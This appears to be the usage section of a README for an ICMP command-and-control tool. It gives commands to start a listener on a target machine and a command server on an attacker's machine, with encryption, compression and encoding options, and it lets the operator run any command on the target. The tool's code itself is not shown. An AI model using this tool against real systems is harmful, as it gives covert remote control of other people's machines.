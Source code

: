 ```markdown


## Usage

### ICMP C2 Listener

Start the listener on the target machine with various options:

```sh
# Basic usage
python3 icmp_listener.py -i eth0

# With encryption and specific ICMP ID
python3 icmp_listener.py -i eth0 --icmp-id 13170 --encrypt --key your_encryption_key

# With compression and hex encoding
python3 icmp_listener.py -i eth0 --compress --encoding hex
```

### ICMP C2 Command Server

Start the command server on the attacker's machine, replacing `192.168.1.100` with the actual IP address of the target machine:

```sh
# Basic usage
python3 icmp_command_server.py -i eth0 -d 192.168.1.100

# With encryption and specific TTL
python3 icmp_command_server.py -i eth0 -d 192.168.1.100 --ttl 128 --encrypt --key your_encryption_key

# With base64 encoding and chunk size
python3 icmp_command_server.py -i eth0 -d 192.168.1.100 --encoding base64 --chunk-size 300
```

## Example Commands

- `exit`: Exit the C2 Command.
- `help`: Show this help message.
- `<any command>`: Execute the specified command on the target.





## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
```
